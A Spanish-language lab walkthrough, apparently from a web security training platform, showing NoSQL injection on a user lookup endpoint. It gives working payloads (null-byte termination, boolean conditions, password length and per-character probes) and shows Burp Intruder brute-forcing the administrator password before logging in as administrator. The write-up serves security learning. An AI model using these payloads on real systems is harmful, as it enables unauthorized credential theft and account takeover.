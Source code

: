 Tenemos el siguiente laboratorio:
![[Pasted image 20240314131909.png]]
Nos autenticamos dentro del laboratorio:
```bash
wiener:peter
```
![[Pasted image 20240325140236.png]]
Y este es el correo asignado:
![[Pasted image 20240325140304.png]]
Si colamos una comilla, veremos que nos da un error:
![[Pasted image 20240325140339.png]]
Ahora en burp suite vamos a ir a la parte de HTTP history donde veremos la petición de login:
![[Pasted image 20240325141409.png]]
Pulsando control + R mandamos esta petición al repeater para ir haciendo más pruebas:
![[Pasted image 20240325141417.png]]
Si enviamos esta petición obtenemos los detalles del usuario wiener:
![[Pasted image 20240325141502.png]]
Pero si colamos una comilla justo después del usuario wiener vemos que se bloquea el programa:
![[Pasted image 20240325141530.png]]
Ahora si inyectamos lo siguiente veremos que vuelve a funcionar y obtenemos los detalles del usuario:
```bash
GET /user/lookup?user=wiener'%00
```
![[Pasted image 20240325141656.png]]
Ahora podemos inyectar la siguiente instrucción:
```bash
GET /user/lookup?user=wiener'&&'1'=='1'%00
```
Pero el && tenemos que url encodearlo seleccionándolo y presionando control + U; y vemos que vuelve a funcionar:
![[Pasted image 20240325141904.png]]
Probamos la inyección y ahora si ponemos 1=2 vemos que no va a funcionar:
```bash
GET /user/lookup?user=wiener'%26%26'1'=='2'%00
```
![[Pasted image 20240325141947.png]]
Viendo esta inyección, podemos ahora obtener las credenciales del usuario administrador con el siguiente payload:
```bash
GET /user/lookup?user=administrator'%26%26this.password%00 HTTP/2
```
![[Pasted image 20240325142124.png]]
Entonces ahora podríamos intentar descubrir primero cual es la longitud de la contraseña del usuario administrador, probando si tiene longitud de 1,2,3 o los caracteres que sean:
```bash
GET /user/lookup?user=administrator'%26%26this.password.length==1%00 
```
Por ejemplo si probamos con la longitud de 1, no encuentra:
![[Pasted image 20240325142617.png]]
Podemos hacer un ataque con el intruder probando distintos números:
![[Pasted image 20240325142646.png]]
Ponemos que haga un ataque secuencial de 1 caracter a 50:
![[Pasted image 20240325142732.png]]
Nos fijamos en la longitud de respuesta y vemos que la contraseña tiene 8 caracteres:
![[Pasted image 20240325142816.png]]
Comprobamos ahora que al poner 8 caracteres funciona bien:
```bash
GET /user/lookup?user=administrator'%26%26this.password.length==8%00
```
![[Pasted image 20240325142857.png]]
Entonces ahora vamos a extraer la contraseña fuzzeando letra por letra, mandando la siguiente petición al intruder:
```bash
GET /user/lookup?user=administrator'%26%26this.password[0]=='a
```
![[Pasted image 20240325143248.png]]
Y en la parte de payloads ponemos todo el abecedario:
![[Pasted image 20240325143358.png]]
Hacemos el ataque y vemos que el primer caracter es la letra o:
![[Pasted image 20240325151217.png]]
Ahora hacemos lo mismo pero para adivinar la posición 1:
![[Pasted image 20240325151251.png]]
Vemos la letra g:
![[Pasted image 20240325151312.png]]
Y así sucesivamente con todas las posiciones hasta llegar a la 8, donde obtenemos la siguiente contraseña:
```bash
oguhxnfl
```
Nos logueamos como el usuario administrador utilizando esta contraseña y funciona:
![[Pasted image 20240325151635.png]]
![[Pasted image 20240325151641.png]]


